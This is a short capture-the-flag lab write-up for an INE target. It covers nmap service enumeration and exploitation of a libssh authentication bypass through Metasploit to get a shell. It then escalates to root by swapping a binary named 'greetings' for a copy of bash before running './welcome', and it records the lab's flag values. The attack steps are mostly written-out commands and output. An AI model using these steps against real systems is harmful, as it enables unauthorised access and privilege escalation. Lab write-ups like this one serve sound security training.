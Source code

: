 # Target Info
*Domain*: `target2.ine.local`
*IP*:`192.63.116.4`

# flags
3) *flag3*: `5e962a94e5244efcad6fce770229fe51`
4) *flag4* : `c23a7d385a5843758dde5da03321caf4`
# Enumeration
## Service enumeration
```shell
- nmap -sS -sV -sC -A -T4 -oX target2 target2.ine.local
	
	Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-13 01:50 IST
	Nmap scan report for target2.ine.local (192.63.116.4)
	Host is up (0.000072s latency).
	Not shown: 999 closed tcp ports (reset)
	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     libssh 0.8.3 (protocol 2.0)
	| ssh-hostkey: 
	|_  2048 31:e2:1d:f1:b2:39:0c:a3:ec:db:01:4a:eb:a2:39:c7 (RSA)
	MAC Address: 02:42:C0:3F:74:04 (Unknown)
	Device type: general purpose
	Running: Linux 4.X|5.X
	OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
	OS details: Linux 4.15 - 5.8
	Network Distance: 1 hop
```
# Exploitation
## exploiting ssh
```shell
msfconsole
# using libssh_auth_bypass exploit
search libssh_auth_bypass
use 0
set rhosts target2.ine.local
set spawn_pty true
run

[*] 192.63.116.4:22 - Attempting authentication bypass
[*] Attempting "Shell" Action, see "show actions" for more details
[*] Command shell session 4 opened (192.63.116.2:40991 -> 192.63.116.4:22) at 2025-05-13 01:54:43 +0530
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

# meterpreter session
- whoami
> user

# finding flag
find / -name 'flag.txt' 2>/dev/null
cat /home/user/flag.txt
> FLAG3_5e962a94e5244efcad6fce770229fe51
```

# Post-Exploitation
## Root Access
``` shell
rm -rf greetings
cp /bin/bash greetings
./welcome
# bnoom ! got root
cat /root/flag.txt
FLAG4_c23a7d385a5843758dde5da03321caf4
```
